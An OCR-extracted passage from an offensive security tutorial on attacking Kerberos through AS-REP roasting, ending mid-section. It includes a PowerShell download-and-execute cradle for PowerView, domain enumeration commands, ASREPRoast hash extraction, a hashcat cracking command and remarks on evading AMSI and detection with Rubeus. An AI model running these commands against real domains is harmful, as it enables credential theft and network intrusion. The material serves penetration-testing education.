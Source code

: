 	IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

As said above under `Kerberoasting`  `AMSI` will probably flag this on `WIN10 1803` but I will leave evasion upto yourselves.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

	Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose

You can also do the below

	Get-DomainUser victimuser | Convert-FromUACValue

**Exploit**

Armed with our target user with `DONT_REQ_PREAUTH` set we can now request the relevant ticket to crack offline. Sadly `PowerView.ps1` does not have a ASREP Roasting Function included however the author `harmj0y` or `PowerView` created a fantastic module to do this with

*https://github.com/HarmJ0y/ASREPRoast*
Simply Import the Module with

	Import-Module .\ASREPRoast.ps1

And now we can simply run

	Get-ASRepHash -Domain m0chanAD.local -UserName m0chan

This will return a Hash which you can crack with Hashcat with the below Syntax

	hashcat64.exe -a 0 -m 7500 asrep.hash /wordlists/rockyou.txt

*PS: You will have to install the latest version of Hashcat to get the support for AS-REP Cracking*

*John also support AS-REP Cracking but I have never tried it*

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)Rebeus

>

> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it’s reflectively loaded using something like Cobalt’s `execute-assembly`>  or `SILENTTRINITY`>  You can also reflectively load it from PowerShell but I will be covering `.NET`>  in greater detail in a future article.

>
> https://github.com/GhostPack/Rubeus

The `asreproast` functionality of `Rebeus` actually is intended to fully replace harmj0ys `ASREPRoast` Powershell module I coupled with PowerView in the section above.

**Enumeration**

Like Kerberoasting `Rubeus` does not have a specific enumeration functionality and is more intended for the exploiting section so I will leave the enumeration section above to do the talking.

**TLDR:** Use PowerView to Enumeration or `Get-ADUser` coupled with `LDAP` queries to find your targets.

**Exploit**
*Sorry for the Copy & Paste ;)*
